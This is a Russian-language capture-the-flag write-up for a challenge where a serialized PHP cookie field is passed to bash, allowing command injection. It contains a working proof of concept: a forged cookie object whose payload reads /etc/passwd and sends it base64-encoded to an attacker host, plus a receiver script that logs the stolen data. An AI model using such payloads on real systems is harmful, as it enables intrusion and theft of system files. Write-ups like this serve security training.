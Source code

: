 # Volyn (11.owaspctf.gq)

Страница устанавливает cookie `userdata` которая является сериализованным php объектом с 3 свойствами:
```
private $username;
private $isAdmin;
public  $borntime;
```

Поле `borntime` содержит в себе текущий unixtime сервера и выводится на странице в форматированном виде.

Форматирование реализуется через `bash`, то есть через borntime можно проводить RCE.

Тест:
```
borntime=`echo -n 0` => Born: Thu Jan 1 00:00:00 UTC 1970
borntime=`echo -n 1` => Born: Thu Jan 1 00:00:01 UTC 1970
```

`poc.php`:

```
#!/usr/bin/php
<?php
class User {
  private $username = 'test';
  private $isAdmin  = True;
  public  $borntime = '0';
  public function __set($name, $value) {$this->$name = $value;}
}

$user = new User();

$user->username = 'foo';
$user->isAdmin  = True;
$user->borntime = '`php -r \'ob_start();system("cat /etc/passwd");$a=ob_get_clean();file_get_contents("http://[ATTACKER]/dec.php?".base64_encode($a));\'`';
$cookie = serialize($user);

$response = file_get_contents('http://11.owaspctf.gq/', false, stream_context_create([
  'http' => [
    'method' => 'GET',
    'header' => [
      'Cookie: userdata=' . urlencode($cookie)
    ]
  ]
]));
```

`dec.php`:

```
<?php
$fp = fopen('php://stderr', 'a');
fwrite($fp, base64_decode($_SERVER['QUERY_STRING']));
```

`FLAG{Path_to_the_dark_side}`
